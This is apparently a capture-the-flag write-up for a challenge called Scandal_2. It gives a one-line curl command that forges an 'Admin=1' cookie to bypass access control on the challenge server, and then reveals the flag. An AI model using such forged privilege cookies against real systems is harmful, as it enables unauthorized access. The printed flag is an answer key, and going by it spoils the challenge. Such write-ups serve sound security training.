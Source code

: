 #### Challenge:

Agent, before you go on the another mission, read this file from our archive: Second part is here, but it's encrypted: http://challenges.thecatch.cz/Scandal_2.php Good luck, Agent

---

#### Solution:

```bash
curl 'http://challenges.thecatch.cz/Scandal_2.php' -H 'Cookie: Admin=1' 2>/dev/null | grep "CT18"
```

---

<details><summary>FLAG:</summary>

```
CT18-22xm-uJPb-SFyO-zOkp
```

</details>
